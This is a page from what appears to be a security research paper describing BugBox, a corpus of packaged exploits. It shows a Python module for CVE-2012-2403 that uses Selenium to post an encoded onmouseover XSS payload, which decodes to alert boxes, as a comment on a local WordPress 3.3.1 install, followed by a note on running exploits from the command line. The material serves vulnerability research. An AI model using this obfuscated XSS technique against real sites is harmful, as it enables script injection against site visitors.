 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
{\tt \small
\begin{figure}[!ht]
\begin{verbatim}
import corpus

class Exploit (corpus.Exploit):

    def __init__(self):
        corpus.Exploit.__init__(self, {
                'Name' :        "CVE_2012_2403",
                'Description' : "Creates a post containing a XSS payload.",
                'References' :  [['CVE','2012-2403'],
                                 ['OSVDB','81463']],
                'Target' :      "Wordpress 3.3.1",
                'Type' :        "XSS",
                'VulWikiPage' : "http://seamster.cs.umd.edu/CVE-2012-2403"
                })
        return
            
    def exploit(self):

        payload = "<a href=\"#\" title=\"XSS http://example.com/onmouseover"
                  "=eval(unescape(/%61%6c%65%72%74%28%31%29%3b%61%6c%65%72"
                  "%74%28%32%29%3b%61%6c%65%72%74%28%33%29%3b/.source))//\"
                  ">XSS</a>"

        driver = self.create_selenium_driver()
        driver.get("http://localhost/wordpress/?p=1")
        driver.find_element_by_id("author").clear()
        driver.find_element_by_id("author").send_keys("selenium script")
        driver.find_element_by_id("email").clear()
        driver.find_element_by_id("email").send_keys("selenium@python.org")
        driver.find_element_by_id("url").clear()
        driver.find_element_by_id("url").send_keys("www.python.org")
        driver.find_element_by_id("comment").clear()
        driver.find_element_by_id("comment").send_keys(payload)
        driver.find_element_by_id("submit").click()
        driver.cleanup()

        return

if __name__ == "__main__": # Exploit invoked from command-line
    engine = corpus.Engine(Exploit())
    engine.parse_args(sys.argv)
\end{verbatim}
\end{figure}
}


\subsubsection{As a Standalone Application}

Each exploit is defined in it's own python file as a module. In Python, modules can either be imported from other modules, or executed directly from the command-line. The exploits written for BugBox take advantage of this property to give the researcher the option of writing scripts to do work on a set of exploits, or to invoke one exploit at a time. When run from the command-line, the supplied arguments are passed directly to the vulnerability engine, which supports the options shown below: 
\end{document}
